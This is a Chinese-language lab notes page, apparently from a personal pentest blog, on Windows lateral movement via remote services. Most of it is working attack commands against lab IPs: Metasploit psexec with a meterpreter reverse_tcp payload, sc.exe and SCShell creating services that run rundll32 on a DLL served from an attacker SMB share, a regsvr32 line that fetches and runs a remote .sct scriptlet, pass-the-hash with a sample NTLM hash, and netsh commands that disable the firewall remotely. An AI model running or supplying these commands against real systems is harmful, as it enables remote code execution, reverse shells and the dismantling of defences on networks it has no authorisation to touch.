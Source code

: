```yaml
---
title: sc远程服务横向移动
categories:
- windows
tags:
- windows
- lateral-movement
---
```

# 横向移动手法介绍教程
1. https://www.bilibili.com/video/BV1Hz4y1Z7pJ
2. https://www.bilibili.com/video/BV1Hz4y1Z7pJ?p=2
3. https://www.bilibili.com/video/BV1Hz4y1Z7pJ?p=3

## smbmap信息搜集

远程管理必须使用Admin$

查看远程共享
```
smbmap -H 192.168.123.45

smbmap -u administrator -p 123456 -d workgroup -H 192.168.123.45
```
## msf psexec （成功，不免杀，开启防火墙则无效）
使用的是139，445端口，目标机器必须开放这个端口。
```
1. impacket-smbserver
2. msf psexec

use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set RHOST 192.168.123.45
set LPORT <Local Port>
set LHOST <Local IP>
set SMBUSER <local admin username>
set SMBPASS <local admin password>
exploit
```
漏洞利用，使用口令去进行命令执行
mimikatz，windows明文密码放在桌面，暴力破解，

## psexec.py（成功，不免杀，开启防火墙则无效）
python /usr/share/doc/python-impacket/examples/psexec.py workgroup/administrator@192.168.123.45 cmd.exe

## sc.exe （成功，开启防火墙也有效，不免杀）
开启rundll32的反弹shell监听服务器，不会的可以看这个视频：https://www.bilibili.com/video/BV1ey4y1k7PA/

```
激活管理员账号
net user administrator /active:yes

net use \\192.168.123.45\admin$ /user:"administrator" "123456"

net use \\192.168.123.45\admin$ /del

net share可以查看本机开放的资源

sc \\192.168.123.45 create whaleReverse15 binpath= "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\Azye\test.dll,0"

sc \\192.168.123.45 start whaleReverse15
```
## csexec（能过360，但不能过windows防火墙）
```
net user administrator 123456
net use \\192.168.28.1\admin$ /user:"administrator" "qwf123!!"
csexec.exe \\192.168.28.1 cmd.exe
操作超时

net use \\192.168.123.45\admin$ /user:"administrator" "123456"
csexec.exe \\192.168.123.45 cmd.exe
没有安装./net2

net use \\192.168.123.184\admin$ /user:"administrator" "123456"
csexec.exe \\192.168.123.45 cmd.exe
```
# 用法有点复杂，没有继续看的工具
##  scshell
```
使用这篇反弹shell “https://whale3070.github.io/tools/2020/10/04/11-x/”中提到的Regsvr32.exe

regsvr32 /s /n /u /i:http://192.168.123.123:8080/6IEDA48otwgL.sct
生成一个注册表

SCShell.exe 192.168.123.45 filepermsvc "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\rDAEep\test.dll,0" . administrastor 123456

regsvr32 /s /n /u /i:http://192.168.123.123:8080/6IEDA48otwgL.sct scrobj.dll
rundll32.exe \\192.168.123.123\MJear\test.dll,0

python scshell.py -target-ip 192.168.123.45 -service-name filepermsvc -no-cmd " C:\windows\system32\rundll32.exe \\192.168.123.123\rDAEep\test.dll,0" . administrastor 123456

SharpMove.exe action=query computername=192.168.123.45 query="filepermsvc" username=administrastor password=123456

SCShell.exe 192.168.123.45 filepermsvc "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" . administrator 123456
```
2020.10.07
```
python3 scshell.py WORKGROUP/WIN-U8OIU3QM15C@192.168.123.45 -hashes aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71
C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\wLWQND\test.dll,0
```
原理：
```
sc config filepermsvc binpath= "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe 
\\192.168.123.123\wLWQND\test.dll,0"

目标机器本地执行成功
C:\Users\Administrator\Desktop\SCShell.exe local filepermsvc "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\hltzs\test.dll,0" . administrator 123456

攻击机器执行：
D:\文件同步\tmp\横向移动参考资料\工具\SCShell-master\SCShell-master\SCShell.exe 192.168.123.45 filepermsvc "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\hltzs\test.dll,0" . administrator 123456
```
## sharpmove
```
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```
## 关闭防火墙命令
关闭公网上的防火墙
`netsh advfirewall set  currentprofile state off`

关闭内网中的防火墙
`netsh advfirewall set privateprofile state off`

### 远程关闭防火墙
```
netsh -r 192.168.123.45 -u administrator -p 123456 -c advfirewall set allprofiles state on

```

https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/netsh-advfirewall-firewall-control-firewall-behavior

https://www.windows-commandline.com/enable-disable-firewall-command-line/

## 参考资料
https://pentestlab.blog/2020/07/21/lateral-movement-services/

https://github.com/Mr-Un1k0d3r/SCShell

https://github.com/0xthirteen/MoveKit

https://github.com/0xthirteen/SharpMove

https://github.com/0xthirteen/SharpRDP



